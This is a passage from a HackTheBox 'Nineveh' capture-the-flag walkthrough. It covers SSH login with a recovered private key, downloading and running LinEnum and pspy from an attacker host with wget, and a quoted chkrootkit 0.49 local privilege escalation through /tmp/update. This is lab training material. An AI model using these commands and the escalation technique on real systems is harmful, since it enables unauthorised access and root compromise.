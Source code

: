 >   `-Pn`: skip host discovery
>
>   `-max-retries 0`: prevent any probe retransmissions

Now that the `ssh` port is open, we connect with the RSA private key.

```bash
┌──(root㉿shiro)-[/home/…/HackTheBox/Nineveh/_nineveh.png.extracted/secret]
└─# ssh -i nineveh.priv amrois@10.10.10.43                               
...
amrois@nineveh:~$ 
```

## Shortcut

Now that we gained access into the system, lets run a `LinEnum` script!

```bash
www-data@nineveh:/var/www/html/department$ cd /tmp
cd /tmp
www-data@nineveh:/tmp$ wget http://10.10.14.29/LinEnum.sh
www-data@nineveh:/tmp$ chmod +x LinEnum.sh
www-data@nineveh:/tmp$ ./LinEnum.sh
...
```

There was nothing interesting from `LinEnum`. We can monitor the processes running instead!

```bash
www-data@nineveh:/tmp$ wget http://10.10.14.29/pspy32s
www-data@nineveh:/tmp$ chmod +x pspy32s
www-data@nineveh:/tmp$ ./pspy32s
...
2022/06/28 09:54:02 CMD: UID=0    PID=12776  | grep -E c 
2022/06/28 09:54:02 CMD: UID=0    PID=12775  | /bin/sh /usr/bin/chkrootkit 
2022/06/28 09:54:02 CMD: UID=0    PID=12774  | /bin/sh /usr/bin/chkrootkit 
...
```

There’s an interesting `/usr/bin/chkrootkit` process running as root.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# searchsploit chkrootkit             
...
Chkrootkit - Local Privilege Escalation (Metasploit)                                | linux/local/38775.rb
Chkrootkit 0.49 - Local Privilege Escalation                                        | linux/local/33899.txt
...
                                             
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# searchsploit -m 33899  
                                             
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# cat 33899.txt   
...
Steps to reproduce:

- Put an executable file named 'update' with non-root owner in /tmp (not
mounted noexec, obviously)
- Run chkrootkit (as uid 0)

Result: The file /tmp/update will be executed as root, thus effectively
rooting your box, if malicious content is placed inside the file.
...
```
